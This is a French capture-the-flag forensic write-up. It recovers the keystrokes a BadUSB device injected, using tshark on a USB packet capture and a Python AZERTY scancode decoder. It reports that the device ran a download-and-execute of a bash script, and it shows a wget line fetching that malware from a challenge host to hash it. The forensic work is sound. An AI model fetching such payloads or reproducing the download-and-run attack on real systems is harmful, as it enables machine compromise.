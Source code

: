 ```yaml
---
title: "Méchant USB"
date: 2024-04-14T09:03:20-08:00
draft: false
---
```


# Cycom 2024 - Méchant USB - Forensic - 300 points

## Énoncé
J'ai laissé malenconteusement dévérouillé pendant que j'étais aux toilettes dans mon café de quartier. 10 minutes plus tard, j'avais perdu l'accès à mon compte Discord.

J'ai trouvé une grosse clé USB par terre un peu plus loin. J'ai ensuite capturé les paquets envoyés par la clé avec Wireshark.

Tu pourrais arriver à décoder le contenu et à trouver le malware ?

*Fichier attaché :* [`capture.pcapng`](/files/capture.pcapng)

*Format flag :* **CYCOM{hash_md5_du_malware}**

**Fichier attaché** : capture.pcapng
## Solution
On se retrouve avec un fichier de capture de paquets qu'on peut ouvrir avec Wireshark.

![](/images/2024/010/01.png)

On voit des paquest dont le protocole est `USB`, jusque là, rien d'inattendu.

Les premiers paquets servent à déterminer, au moment du branchement de l'appareil, de quelle nature, quelle marque, quel modèle, etc. il est pour pouvoir charger le driver adéquat et ainsi interpréter la suite de la conversation correctement.

Ce qui nous intéresse, c'est surtout les paquets `USB_INTERRUPT in`, qui représentent les informations envoyés par la clé à l'ordinateur de la victime.

On remarque que tous les paquets `USB_INTERRUPT in` proviennent de l'adresse `2.3.1`. Lorsqu'on regarde plus haut dans la conversation, on peut retrouver les paquets de description, qui nous permettent de voir de quel genre d'appareil il s'agit.

![](/images/2024/010/02.png)

Une clé USB détectée comme un combo clavier + souris Logitech ? Tout ça sent fort le BadUSB.

Maintenant que l'on connait la nature du device, on peut commencer à regarder le contenu des paquets `USB_INTERRUPT in`

![](/images/2024/010/03.png)

On peut ignorer l'entête USB pour se concenter uniquement sur le `HID Data` envoyé par la clé USB.

Ici, chaque paquet représente une frappe de clavier. Le paquet se découpe comme tel sur 9 octets :
- Le premier octet est toujours a `01`, il peut être ignoré
- Le second octet représente quel modifier (CTRL, ALT, etc) est appuyé. Si rien n'est appuyé, il est a `00`
- Le troisième octet est toujours nul. `00`
- Les octets 4,5,6,7,8 et 9 réprésent les touches appuyées. Chaque octet représente une touche, et il est possible d'appuyer sur 6 touches maximum en meme temps.

En premier lieu, il faut extraire les données qui nous intéresse, a savoir chaque partie `HID Data` des paquets `USB_INTERRUPT in`. Pour faire ça facilement, on peut utiliser `tshark`.

```bash
tshark capture.pcapng -Y "usbhid.data" -T fields -e usbhid.data 2> /dev/null > keystrokes
```

On se retrouve avec un fichier qui contient chaque paquet séparé par un retrour ligne.

![](/images/2024/010/04.png)

On peut ensuite utiliser un script qui permet de récupérer les frappes depuis ce genre de données, en transformant les `scancodes` du clavier en charactères.

Le seul souci est que le clavier de notre ami est en AZERTY, il faudra donc adapter le script qu'on utilise pour retrouver le texte tapé.

Un exemple de script qui fonctionne : 

```python
# coding=utf-8
usb_codes = {
    0x04:"qQ", 0x05:"bB", 0x06:"cC", 0x07:"dD", 0x08:"eE", 0x09:"fF",
    0x0A:"gG", 0x0B:"hH", 0x0C:"iI", 0x0D:"jJ", 0x0E:"kK", 0x0F:"lL",
    0x10:",?", 0x11:"nN", 0x12:"oO", 0x13:"pP", 0x14:"aA", 0x15:"rR",
    0x16:"sS", 0x17:"tT", 0x18:"uU", 0x19:"vV", 0x1A:"zZ", 0x1B:"xX",
    0x1C:"yY", 0x1D:"wW", 0x1E:"&1", 0x1F:"é2", 0x20:"'3", 0x21:"'4",
    0x22:"(5", 0x23:"-6", 0x24:"è7", 0x25:"_8", 0x26:"ç9", 0x27:"à0",
    0x2C:"  ", 0x2D:")°", 0x2E:"=+", 0x2F:"[{", 0x30:"]}",  0x32:"#~",
    0x33:"mM", 0x34:"'\"",  0x36:";.",  0x37:":/"
    }

lines = ["","","","",""]

pos = 0

for x in open("keystrokes","r").readlines():
    code = int(x[6:8],16)

    if code == 0:
        continue
    # newline or down arrow - move down
    if code == 0x51 or code == 0x28:
        pos += 1
        continue
    # up arrow - move up
    if code == 0x52:
        pos -= 1
        continue

    # select the character based on the Shift key
    if int(x[2:4],16) == 2:
        lines[pos] += usb_codes[code][1]
    else:
        lines[pos] += usb_codes[code][0]


for x in lines:
    print (x)

```

On execute le script, et on retrouve ce qui a été frappé par le BadUSB !

![](/images/2024/010/05.png)

Le BadUSB fait donc un simplement téléchargement + execution d'un script bash.

On le télécharge et on calcule son empreinte MD5 pour valider le challenge !

```bash
wget http://mal.challengecyber.fr/hE_qkize -O - | md5sum

a8ae43bfe171377c972dbea39f2cc92d
```

*Flag: CYCOM{a8ae\*\*\*\*\*\*\*}*

## Auteur

Lyne